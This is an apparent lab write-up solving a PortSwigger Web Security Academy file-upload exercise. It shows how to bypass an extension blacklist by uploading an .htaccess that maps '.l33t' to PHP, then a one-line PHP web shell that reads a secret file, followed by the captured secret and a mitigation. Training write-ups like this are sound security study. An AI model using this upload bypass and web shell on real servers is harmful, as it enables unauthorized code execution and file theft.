


# Lab 09 - Web Shell Upload via Extension Blacklist Bypass

**Lab:** PortSwigger Web Security Academy - File Upload

**Vulnerability:** The site allows .htaccess upload and does not block .l33t extension. So we can execute .l33t as PHP.

**Steps:**
1. Login to My Account
2. Create .htaccess file with content: AddType application/x-httpd-php .l33t
3. Upload .htaccess via avatar upload
4. Create exploit.l33t file with content: <?php echo file_get_contents('/home/carlos/secret'); ?>
5. Upload exploit.l33t and visit /files/avatars/exploit.l33t to get secret

**Proof:**

Secret Code:

Solved:

Secret: fANjtZmr6DIJFTBQauwpNkIRr8cOmuCG

**Mitigation:**
Block .htaccess upload and use whitelist for file extensions like jpg, png only.

